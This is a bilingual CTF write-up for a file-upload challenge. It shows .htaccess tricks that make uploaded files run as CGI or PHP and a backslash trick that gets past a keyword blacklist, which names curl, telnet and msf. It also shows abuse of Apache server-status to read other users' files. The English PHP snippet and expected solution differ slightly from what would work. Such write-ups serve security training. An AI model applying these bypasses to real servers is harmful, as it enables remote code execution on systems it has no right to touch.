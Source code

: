 ## check in
**Examination of this Challenge**  

1.`.htaccess`Utilization of documents  
2.The use of CGI in Linux  
Some points to pay attention to when doing this Challenge:
- MIME(`content-type`)Field verification
- Suffix blacklist verification(`/ph|ml|js|cg/`)
- Document content verification
```
/perl|pyth|ph|auto|curl|base|>|rm|ryby|openssl|war|lua|msf|xter|telnet/
```
**Expected solution**  

.htaccess:
```
AddHandler cgi-script .xx
```
1.xx:
```bash
#! /bin/bash

echo Content-type: text/html

echo ""

cat /flag
```
After uploading the file, we found that the status code was 500 and we could not parse the bash file, because our target site was a Linux environment. If we wrote it with the local (windows or other)editor and the encoding format was not consistent with that when uploading, we could not parse it, so we could write it in the Linux environment, export and upload it.

**Unexpected solution 1**  

.htaccess:
```
AddType application/x-httpd-p\
hp .xx
```
1.xx
```php
<?='cat /flag';
```
**Unexpected solution 2**  

Leverage server status information  

.htaccess:
```
SetHandler server-status
```
Upload files and access your own upload directory,You can see the server status information,This method can at any time look at the information of a file that someone else has access to, and use someone else's file to successfully getflag.


## check in
**本题考查点**：  

1.`.htaccess`文件的利用  
2.linux环境下CGI的利用
文件上传时注意的几点:  
- MIME(content-type字段)校验
- 后缀名黑名单校验(`/ph|ml|js|cg/`)
- 文件内容校验
```
/perl|pyth|ph|auto|curl|base|>|rm|ryby|openssl|war|lua|msf|xter|telnet/
```
**预期解**  

.htaccess:
```
Options +ExecCGI
AddHandler cgi-script .xx
```
1.xx:
```bash
#! /bin/bash

echo Content-type: text/html

echo ""

cat /flag
```
注：这里讲下一个小坑，linux中cgi比较严格(2333333)  
上传后发现状态码500，无法解析我们bash文件。因为我们的目标站点是linux环境，如果我们用(windows等)本地编辑器编写上传时编码不一致导致无法解析，所以我们可以在linux环境中编写并导出再上传。

**非预期解 1**  

惨痛的教训 ！！！
出题时坑有点多，所以忘记了[2019xnuca中的ezphp](https://github.com/NeSE-Team/OurChallenges/tree/master/XNUCA2019Qualifier/Web/Ezphp),所以许多师傅就利用`\`绕过了waf! (wtclll!!)  
.htaccess:
```
AddType application/x-httpd-p\
hp .xx
```
1.xx
```php
<?='cat /flag';
```
**非预期解 2**  

利用apache的服务器状态信息(默认关闭)  
.htaccess:
```
SetHandler server-status
```
上传文件后，访问自己的目录就发现是apache的服务器状态信息，可以看到其他人的访问本网站的记录，可以利用次方法，可以白嫖flag。
